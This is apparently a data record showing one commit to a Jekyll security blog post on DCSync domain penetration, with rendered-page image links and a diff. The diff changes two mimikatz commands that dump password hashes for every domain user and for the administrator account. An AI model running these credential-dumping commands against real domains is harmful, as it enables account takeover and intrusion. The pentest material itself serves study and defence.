

Before and after one commit to 3gstudent/backup-3gstudent.github.io, a Jekyll site: the page built from _posts/2019-7-11-域渗透——DCSync.md, in a window 1280 px wide and 900 px high, scrolled down 1044 px. Shown: the whole window, without its empty margins (248-1152 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2019-7-11-域渗透——DCSync.md

````diff
--- a/_posts/2019-7-11-域渗透——DCSync.md
+++ b/_posts/2019-7-11-域渗透——DCSync.md
@@ -50,13 +50,13 @@ https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/lsadump/kuhl
 导出域内所有用户的hash：
 
 ```
-mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
+mimikatz.exe "lsadump::dcsync /domain:test.com /all /csv" exit
 ```
 
 导出域内administrator帐户的hash：
 
 ```
-mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
+mimikatz.exe "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
 ```
 
 #### 2.powershell实现
````
